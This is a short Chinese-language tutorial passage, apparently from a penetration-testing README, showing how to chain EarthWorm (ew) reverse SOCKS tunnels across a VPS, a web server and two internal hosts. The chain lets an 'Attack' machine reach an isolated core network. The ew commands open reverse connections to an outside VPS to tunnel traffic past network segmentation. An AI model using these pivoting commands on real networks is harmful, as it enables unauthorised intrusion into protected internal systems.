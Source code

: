 ### 三级级联

再提供一个“三级级联”的本地SOCKS测试用例以供参考    
环境示意图：    
![](../pictures/porttransfer4.png)    

环境说明：Web server没有公网IP但可以访问外网，V2主机不能访问外网但可以被Web server主机访问，V3主机可被V2主机访问且能访问核心区域  
```
# vps上执行，把来自外部的1080端口流量转到本地的8888端口上
./ew -s rcsocks -l 1080 -e 8888  
# Web server执行，把vps的8888端口和内网V2的9999端口绑定
./ew -s lcx_slave -d 123.123.1.1 -e 8888 -f 10.255.12.2 -g 9999 
# V2执行，将来自外部的7777端口和本地的9999端口进行绑定
./ew -s lcx_listen -l 9999 -e 7777 
# V3执行，将本地的socks连接反弹到V2的7777端口上
./ew -s rssocks -d 10.255.12.2 -e 7777 
# Attack执行，使用Proxifier等建立正常的socks代理访问1080端口
```
数据流向: Attack(SOCKS v5) -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks  